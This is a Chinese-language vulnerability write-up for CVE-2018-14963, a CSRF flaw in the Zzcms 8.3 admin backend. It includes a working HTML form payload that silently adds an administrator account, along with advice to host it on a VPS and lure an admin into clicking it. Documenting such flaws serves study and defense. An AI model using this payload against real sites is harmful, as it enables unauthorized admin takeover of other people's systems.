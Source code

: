 ```yaml
---
title: （CVE-2018-14963）Zzcms 8.3 csrf
id: zhfly3316
---
```


# （CVE-2018-14963）Zzcms 8.3 csrf

## 一、漏洞简介

## 二、漏洞影响

Zzcms 8.3

## 三、复现过程

csrf漏洞，这个问题也是从上个版本就存在的问题，就是整个管理员后台的，所有表单都是没有设置csrf的token的，所以只要涉及到敏感操作的表单，都可以使用csrf来攻击，达成很多攻击利用。

这里的攻击是产生在了/admin/adminadd.php的添加管理员操作，构造的表单如下：

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://0-sec.org:8080/admin/adminadd.php?action=add" method="POST">
      <input type="hidden" name="groupid" value="1" />
      <input type="hidden" name="admins" value="123" />
      <input type="hidden" name="passs" value="123" />
      <input type="hidden" name="passs2" value="123" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html> 
```

构造好了payload以后，放到vps上，然后诱导管理员点击恶意链接，即可成功添加管理员。

未添加管理员之前：

![image](../img/7c95692b1f4c16eba5f5287cd0355251.png)

点击链接之后：

![image](../img/37ed21aea871905e46ab6e881bd4c9bb.png)

## 参考链接

> https://www.anquanke.com/post/id/156660